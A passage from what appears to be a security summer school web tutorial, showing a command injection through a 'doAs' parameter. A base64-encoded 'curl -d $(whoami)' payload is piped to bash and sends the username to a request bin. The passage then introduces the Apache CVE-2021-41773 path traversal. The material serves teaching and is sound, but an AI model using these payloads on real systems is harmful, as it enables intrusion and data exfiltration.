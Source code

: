 Because of the ```$(whoami)``` parameter that will be interpreted by bash, we can encode the string with base64 using python:

```python
python
import base64
base64.b64encode(b'curl -d $(whoami) <REQUEST-BIN-URL>')
```

<img src="./assets/python_encode.png" width=550 height=50>


```
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

We can see that we have got two GET requests in our Request Bin logger. One of this contains the target username:

<img src="./assets/username.png" width=850 height=400>

## CVE-2021-41773

An attacker could use a path traversal attack to map URLs to files outside the expected document root. We discussed about path traversal in [Session 2](https://github.com/security-summer-school/web/blob/master/cookies-session-management-access-control/index.md).
In Apache, if files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.
The affected versions of Apache were Apache 2.4.49 & 2.4.50.

Path normalization mechanism of Apache HTTP Server 2.4.49, it does not properly neutralize sequences such as ".." so this will result in accessing files outside the current directory.
Using the ```%2e``` (which is the URL encoding of '.') inside the target URL, we can successfully run a path traversal attack:
